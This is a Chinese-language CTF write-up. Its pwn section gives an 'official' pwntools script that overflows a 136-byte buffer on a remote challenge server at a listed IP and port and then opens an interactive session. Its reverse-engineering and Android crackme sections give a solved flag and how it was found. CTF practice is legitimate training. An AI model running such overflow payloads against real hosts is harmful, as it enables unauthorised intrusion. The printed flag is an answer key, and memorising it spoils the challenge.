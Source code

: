 # pwn

> 直接下载看看吧
>
> nc 119.29.191.200 10100
>
> [pwn150](http://www.giantbranch.cn:8889/static/uploads/5bca2d0024f8e640440a07702761e291/pwn150)

官方脚本

```python
from pwn import *

# p = process("./pwn100")
p = remote("119.29.191.200", "10100")
ret = 0x4005E4
payload = "A" *136 + p64(ret)

p.send(payload)

p.interactive()
```

# Re

## 请输入flag

> Hit：尝试使用IDA，进行逆向，工具下载 请戳-->[http://down.52pojie.cn/Tools/Disassemblers/](http://down.52pojie.cn/Tools/Disassemblers/)
>
> [re100.zip](http://www.giantbranch.cn:8889/static/uploads/bb61c803306fca6b3688eb00644689ed/re100.zip)

做这道题的时候，刚刚看完王爽的《汇编语言》，但是没有怎么实战过。因为曾经网上看到 过一个别人的 writeup ，在一个逆向题里面的思路是通过函数找到字符串，继而找到 flag。 突然想着我也可以这么试试，回来用 IDA 打开程序，在函数窗口那里发现一个 strncmp 函 数，突然思路就来了。 

从程序的角度来说，打开程序后就叫你输入 flag，所以程序内部肯定有这么一个环节，是把 我们输入的字符串和它内部产生的正确的 flag 做一个比较，相同就返回正确的提示信息。所 以我只要程序运行之后，随便输入一个字符串，然后跳到 strncmp 函数处，跟随函数的执 行，应该就能发现正确的 flag。IDA 动态调试了一下，思路正确，得到 flag。 

flag:**we1c0_2_xp0int**

***此题由Plus贡献***

## first Android

> 破解大师，不要费劲心思破解了
>
> [crackme0001.apk](http://www.giantbranch.cn:8889/static/uploads/b4c16350eb72959ab3961361dddf0904/crackme0001.apk)

直接将apk拖进ApkIDE，全部文件搜索flag查到
